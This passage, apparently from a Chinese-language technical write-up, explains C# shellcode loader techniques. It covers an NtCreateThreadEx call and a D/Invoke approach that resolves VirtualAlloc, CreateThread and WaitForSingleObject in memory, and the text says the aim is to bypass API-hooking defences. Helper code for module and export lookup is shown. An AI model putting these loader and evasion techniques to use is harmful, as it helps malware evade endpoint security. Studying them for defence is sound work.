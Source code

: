 ```plain
uint hThreadResult = Auto_NativeCode.NtCreateThreadEx(   
    out hThread,
    STANDARD_RIGHTS_ALL | SPECIFIC_RIGHTS_ALL, 
    IntPtr.Zero, 
    GetCurrentProcess(), 
    pMemoryAllocation, 
    IntPtr.Zero, 
    false, 
    0,
    0xFFFF,
    0xFFFF, 
    IntPtr.Zero
);
```

### D/Invoke\_shellcodeload 方式

此方式主要依赖 `DInvokeFunctions.cs` 和 `Program.cs`

-   在 `DInvokeFunctions.cs` 中，定义了多个方法来实现 D/Invoke，即直接调用内存中的函数而不是通过常规的 API 调用。这主要用于绕过防护机制，如 API hooking。
-   在 `Program.cs` 中，展示了如何使用 `DInvokeFunctions` 类中的方法来动态调用 `kernel32.dll` 的 `VirtualAlloc`, `CreateThread`, 和 `WaitForSingleObject` 函数，以在内存中分配空间、执行 shellcode，并等待线程结束。

#### 获取已加载模块地址

`GetLoadedModuleAddress` 方法使用 `Process.GetCurrentProcess().Modules` 获取当前进程的模块集合，接着遍历当前进程加载的模块，返回指定模块的基地址：

```plain
public static IntPtr GetLoadedModuleAddress(string DLLName)
{
    ProcessModuleCollection ProcModules = Process.GetCurrentProcess().Modules;
    foreach (ProcessModule Mod in ProcModules)
    {
        if (Mod.FileName.ToLower().EndsWith(DLLName.ToLower()))
        {
            return Mod.BaseAddress;
        }
    }
    return IntPtr.Zero;
}
```

#### 获取函数地址

`GetLibraryAddress` 方法利用 `GetLoadedModuleAddress` 获取模块的基地址，接着调用 `GetExportAddress` 根据模块基地址和函数名获取函数的内存地址：

```plain
public static IntPtr GetLibraryAddress(string DLLName, string FunctionName, bool CanLoadFromDisk = false)
{
    IntPtr hModule = GetLoadedModuleAddress(DLLName);
    return GetExportAddress(hModule, FunctionName);
}
```
